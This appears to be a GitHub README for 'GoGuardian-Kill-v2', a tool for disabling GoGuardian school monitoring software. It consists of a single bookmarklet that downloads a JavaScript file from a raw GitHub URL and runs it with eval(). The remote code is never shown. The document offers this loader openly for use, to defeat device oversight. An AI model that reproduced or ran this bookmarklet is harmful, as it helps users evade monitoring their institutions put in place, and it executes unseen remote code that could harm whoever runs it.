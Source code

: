 # GoGuardian-Kill-v2
GoGuardian Disabler Version 2
Heres the Bookmarklet:
javascript:fetch(`https://raw.githubusercontent.com/NexxussExploits/GoGuardian-Kill-v2/main/kill_script.js`).then(data=>{data.text().then(text=>{eval(text)})});
